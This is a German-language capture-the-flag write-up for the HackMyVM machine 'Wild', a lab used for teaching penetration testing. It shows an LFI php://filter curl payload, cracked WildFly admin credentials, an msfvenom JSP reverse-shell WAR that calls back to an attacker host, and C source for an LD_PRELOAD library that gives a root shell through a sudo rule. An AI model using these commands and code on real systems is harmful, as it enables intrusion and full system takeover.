

# Wild - HackMyVM (Hard)
 


## Übersicht

*   **VM:** Wild
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Wild)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 27. April 2024
*   **Original-Writeup:** https://alientec1908.github.io/Wild_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Wild"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Apache-Webservers (Port 80) und mehrerer WildFly/JBoss-Dienste (Ports 8080, 8443, 9990). Eine Local File Inclusion (LFI)-Schwachstelle wurde in `recipe.php` auf Port 80 gefunden. Mittels LFI und dem `php://filter`-Wrapper wurde die WildFly-Konfigurationsdatei `/opt/wildfly/domain/configuration/mgmt-users.properties` ausgelesen. Diese enthielt den Benutzernamen `administrator` und einen MD5-Hash (`MD5(administrator:ManagementRealm:password)`). Der Hash wurde offline geknackt (Passwort: `katarina9`). Dies ermöglichte den Login in die WildFly Management Console (Port 9990). Über die Management Console wurde eine bösartige WAR-Datei (erstellt mit `msfvenom`, enthielt eine JSP-Reverse-Shell) deployed. Das Auslösen der WAR-Datei (`/tao/`) führte zu einer Reverse Shell als Benutzer `tod`. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Ausnutzung einer unsicheren `sudo`-Regel: `tod` durfte `/usr/bin/info` als `root` ohne Passwort und mit `SETENV` ausführen. Durch Erstellen einer bösartigen Shared Library (`infohack.so`), die eine Root-Shell startete, und Laden dieser Library über die `LD_PRELOAD`-Umgebungsvariable beim Aufruf von `sudo info` wurde eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nmap`
*   `nikto`
*   `dirb`
*   `gobuster`
*   `msfconsole` (Metasploit Framework)
*   `msfvenom`
*   `curl`
*   `nc` (netcat)
*   `python3` (für Hash-Cracker-Skript und `http.server`)
*   `find`
*   `ls`
*   `cat`
*   `getcap` (versucht)
*   `ss`
*   `ps` (impliziert)
*   `hashlib` (Python-Modul)
*   `requests` (Python-Modul im Exploit)
*   `cPickle` (Python-Modul, nicht direkt verwendet, aber oft in Deserialisierungs-Kontexten)
*   `gcc`
*   `mkpasswd` (nicht direkt verwendet, aber verwandt mit Passwort-Hashing)
*   `sudo`
*   `id`
*   `cd`
*   `pwd`
*   `export`
*   `stty`
*   `fg`
*   `wget`
*   `chmod`
*   `cp`
*   `touch` (impliziert)
*   `bash`
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Wild" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Service Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.111`). Eintrag von `wild.hmv` in `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH), 80 (HTTP - Apache "burger html5 landing page"), 8080 (HTTP - WildFly), 8443 (HTTPS - WildFly), 9990 (WildFly Management Console).
    *   `nikto` und `gobuster`/`dirb` auf Port 80 fanden PHP-Dateien (`index.php`, `about.php`, `recipe.php` etc.).
    *   `gobuster` auf Port 8080 fand `/console` (Redirect zu Port 9990). Metasploit `jboss_vulnscan` war erfolglos.
    *   Die WildFly Management Console auf Port 9990 erforderte Authentifizierung.

2.  **LFI & WildFly Admin Credential Cracking:**
    *   Identifizierung einer Local File Inclusion (LFI)-Schwachstelle in `http://wild.hmv/recipe.php` (Parameter `file`).
    *   Auslesen der WildFly-Benutzerkonfigurationsdatei via LFI und `php://filter`:
        `curl 'http://wild.hmv/recipe.php?file=php://filter/convert.base64-encode/resource=/opt/wildfly/domain/configuration/mgmt-users.properties'`
    *   Die dekodierte Datei enthielt den Benutzer `administrator` und den Hash `3bfa7f34174555fe766d0e0295821742` (Format: `MD5(username:ManagementRealm:password)`).
    *   Ein Python-Skript (`hashcracker.py`) mit `rockyou.txt` knackte den Hash: Passwort `katarina9`.

3.  **Initial Access (WildFly WAR Deployment zu `tod`):**
    *   Login in die WildFly Management Console (`http://wild.hmv:9990/`) mit `administrator:katarina9`.
    *   Erstellung einer Java JSP Reverse Shell als WAR-Datei (`tao.war`) mit `msfvenom`:
        `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Angreifer-IP] LPORT=5555 -f war > tao.war`
    *   Deployment von `tao.war` über die WildFly Management Console.
    *   Starten eines `nc`-Listeners auf dem Angreifer-System (Port 5555).
    *   Auslösen der Reverse Shell durch Aufruf von `http://192.168.2.111:8080/tao/`.
    *   Erlangung einer Shell als Benutzer `tod`.
    *   User-Flag `c1cc7f5179a168ec93095695f20c9e3f` in `/home/tod/user.txt` gelesen.

4.  **Privilege Escalation (von `tod` zu `root` via `sudo info` und `LD_PRELOAD`):**
    *   `sudo -l` als `tod` zeigte: `(ALL : ALL) SETENV: NPASSWD: /usr/bin/info`.
    *   Erstellung einer bösartigen Shared Library (`infohack.c`) auf der Angreifer-Maschine, die eine Root-Shell (`/bin/bash -p`) startet:
        ```c
        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>
        void _init() { unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash -p"); }
        ```
    *   Kompilieren zu `infohack.so`: `gcc -fPIC -shared -o infohack.so infohack.c -nostartfiles`.
    *   Übertragen von `infohack.so` auf das Zielsystem (z.B. `/opt/wildfly/bin/`) via Python HTTP-Server und `wget`.
    *   Ausführung des `sudo`-Befehls mit manipulierter `LD_PRELOAD`-Variable:
        `sudo LD_PRELOAD=/opt/wildfly/bin/infohack.so /usr/bin/info`
    *   Erlangung einer Root-Shell.
    *   Root-Flag `d8592e5a179d4b80e099f4c9a460c6e4` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI):** Eine PHP-Datei (`recipe.php`) erlaubte das Lesen beliebiger Dateien, einschließlich sensibler Konfigurationsdateien.
*   **Passwort-Hash-Cracking (MD5):** Ein MD5-Hash für den WildFly-Admin wurde offline geknackt.
*   **Unsicheres WildFly-Deployment:** Nach Erlangung von Admin-Zugang zur Management-Konsole konnte eine bösartige WAR-Datei deployed werden, was zu RCE führte.
*   **Unsichere `sudo`-Konfiguration (`info` mit `SETENV`):** Die Erlaubnis, `/usr/bin/info` als `root` mit der `SETENV`-Option und `NOPASSWD` auszuführen, ermöglichte `LD_PRELOAD`-Hijacking.
*   **`LD_PRELOAD`-Hijacking:** Erstellen einer bösartigen Shared Library, die beim Start eines privilegierten Programms geladen wird und dessen Rechte übernimmt.

## Flags

*   **User Flag (`/home/tod/user.txt`):** `c1cc7f5179a168ec93095695f20c9e3f`
*   **Root Flag (`/root/root.txt`):** `d8592e5a179d4b80e099f4c9a460c6e4`

## Tags

`HackMyVM`, `Wild`, `Hard`, `LFI`, `WildFly`, `JBoss`, `WAR Deployment`, `RCE`, `Password Cracking`, `MD5`, `sudo Exploitation`, `LD_PRELOAD`, `Privilege Escalation`, `Linux`, `Web`, `Java`
